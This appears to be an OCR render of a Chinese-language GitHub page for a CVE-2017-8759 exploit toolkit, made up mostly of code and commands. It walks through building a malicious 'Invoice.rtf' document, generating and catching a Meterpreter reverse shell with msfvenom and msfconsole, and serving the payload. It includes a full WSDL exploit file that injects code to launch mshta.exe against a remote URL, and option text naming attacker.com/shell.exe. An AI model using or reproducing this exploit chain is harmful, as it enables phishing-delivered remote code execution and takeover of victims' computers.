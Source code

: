 ```python
      -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

      -l </tmp/shell.exe>                 Specify local path of an executable file / meterpreter shell / payload.
```

##### usage

```
1) 制作恶意文档
   # python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.txt
2) 利用msf 模块利用   生成反弹shell 
   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
3) 开启本地payload 文件下载服务
   # python cve-2017-8759_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
```

EXP利用分析

  通过开源 1的脚本：

​		     python  CreateRTF.py  -f 文件名  -u  expurlpath 

                     filename: output file name
    	     url: http[s]://example.com/exploit.txt

​    exploit.txt

```xml
﻿<definitions
    xmlns="http://schemas.xmlsoap.org/wsdl/"
    xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
    xmlns:suds="http://www.w3.org/2000/wsdl/suds"
    xmlns:tns="http://schemas.microsoft.com/clr/ns/System"
    xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
    <portType name="PortType"/>
    <binding name="Binding" type="tns:PortType">
        <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
        <suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
    </binding>
    <service name="Service">
        <port name="Port" binding="tns:Binding">
            <soap:address location="https://example.com?C:\Windows\System32\mshta.exe?https://example.com/cmd.jpg"/>
                        <soap:address location=";
                        if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
                                System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
                                System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
                        } //"/>
        </port>
    </service>
</definitions> 
```
